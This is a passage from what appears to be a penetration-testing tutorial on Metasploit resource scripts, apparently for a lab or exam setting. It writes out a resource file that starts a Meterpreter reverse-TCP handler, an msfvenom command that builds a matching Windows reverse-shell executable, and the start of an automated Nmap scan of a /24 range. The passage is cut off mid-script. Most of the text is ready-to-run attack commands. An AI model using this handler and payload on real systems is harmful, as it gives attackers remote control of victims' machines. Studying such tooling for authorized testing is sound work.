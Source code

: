2) Create the resource script:
```bash
mkdir -p ~/msf-rc ~/msf-logs

cat > ~/msf-rc/autohandler_windows.rc << 'EOF'
# Log everything from this run
spool ~/msf-logs/autohandler_windows.log

# Global settings
setg LHOST 10.10.14.23
setg LPORT 4444

# Multi/handler for Windows x64 Meterpreter reverse TCP
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set ExitOnSession false

# Launch the handler as a background job; do not interact with new sessions
exploit -j -z

# Show running jobs (the handler should be listed)
jobs -l

# Optional: exit when run from -r (remove if you want console to stay open)
# exit -y

# Stop logging
spool off
EOF
```

3) Run it:
```bash
msfconsole -q -r ~/msf-rc/autohandler_windows.rc
```

4) (Optional) Generate a matching payload to test:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.23 LPORT=4444 -f exe -o ~/shell.exe
```

### B. Baseline network scan and service enumeration via .rc
This builds a workspace, runs Nmap via db_nmap, and follows up with common service version checks.

```bash
cat > ~/msf-rc/baseline_scan.rc << 'EOF'
# Create/select workspace and log output
workspace -a exam
workspace exam
spool ~/msf-logs/baseline_scan.log

# Confirm DB status
db_status

# Set the scope globally (adjust to target range)
setg RHOSTS 10.10.10.0/24

# Run Nmap and import results into the DB
db_nmap -Pn -T4 -sS -sV -O --top-ports 200 10.10.10.0/24

# Show hosts and services discovered
hosts
services

# HTTP version enumeration
```